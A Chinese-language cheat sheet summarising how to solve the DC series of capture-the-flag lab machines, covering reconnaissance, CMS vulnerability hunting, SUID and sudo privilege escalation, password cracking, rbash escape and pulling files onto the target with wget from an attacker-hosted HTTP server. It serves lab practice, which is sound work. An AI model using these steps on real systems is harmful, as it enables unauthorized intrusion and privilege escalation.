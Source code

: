 # DC系列靶机总结

## (一) 信息收集

- 扫描局域网内靶机地址:

```
sudo arp-scan -l
```

- 扫描靶机开放的端口以及详细的信息:

```
nmap -A -sV xxx_ip (查CMS种类)
```

- 扫描web目录(,寻找登录后台, 寻找可疑文件):

```
dirb  //一般
dirbuster  //可以使用dirb的字典
dirsearch  //较好
goburster
```

- 眼光不应该局限于页面的主要内容,可以使用Google去查询靶机web或其他有关于靶机的内容



## (二) 漏洞搜寻

- 首先进入靶机HTTP服务(如果有的话), 尝试sql注入, 密码暴力破解(八成不行)

- 从搜寻的CMS(如果能发现)寻找CMS的漏洞 //Google是个好帮手
- 使用相应的CMS扫描工具对靶机IP继续进行扫描,查找用户以及相关的信息
- 从网站中看看有没有什么可以提交的页面,发掘是否有文件包含漏洞
- 如果进入CMS管理系统,查看是否可以使用或下载PHP插件,在PHP页面中插入反弹shell, 或者寻找里面插件的漏洞

- 在网站中发送信息,如果可疑,用brupsuite拦截,并修改发送的值, 尝试sql注入以及文件包含

- 文件包含漏洞查询时可以使用模糊测试工具wfuzz, 查看输入的命令被包含在哪个文件中

- 使用searchsploit查询漏洞文件

````
searchsploit XXX   //搜索漏洞  
searchsploit -m exp_name  //查询漏洞所在地址
````



 

## (三) 权限提升

- 使用msf或者nc等工具登录靶机控制界面可能没有交互式shell这时需要:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 查看是否能进行suid提权

```
find / -user root -perm -4000 -print 2>/dev/null
```

- 查看当前用户是否具有某些root用户权限:
- 向文件中添加内容直接获得root权限,
- 使用 sudo  xxx 执行命令`(别忘记前面加sudo)`

```
sudo -l
```

- 查看里面有没有什么特殊的文件, 使用漏洞搜寻查找是否具有漏洞,是否可以据此提权
- git提权(sudo -l发现)

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```



## (四) 密码破解

- 在得知CMS类型的时候就可以使用相关的工具进行密码破解,比如wp-scan
- 使用hydra进行破解(一般破解ssh密码时使用这个
- cewl 抓取网站信息来充当密码
- john破解哈希值

## (五) 杂记

- rbash绕过(vi方法)

```
//选择一个文件,使用vi打开
//末行模式下:
(1)  :set shell=/bin/bash
(2)  :shell
```

- 配置hosts文件,有时DNS无法解析靶机地址,这时我们就需要自己在攻击机器上添加靶机的IP以及主机名

```
cd /etc/hosts
```

- 靶机之间的文件传输

```
// 使用python在攻击机器上开启http服务,在靶机上wget下载.注意攻击机器http服务的开启要在传送的文件同一目录下,靶机的下载要在/tmp文件夹或其他具有弱权限的文件夹下下载

//攻击机器 python2
python -m SimpleHTTPServer xxx_port
//攻击机器 python3
python -m http.server xxx_port

//靶机
wget http://xxxx_ip:xx_port/xxx_file
```

- 注意查看靶机里面邮件内容可能有惊喜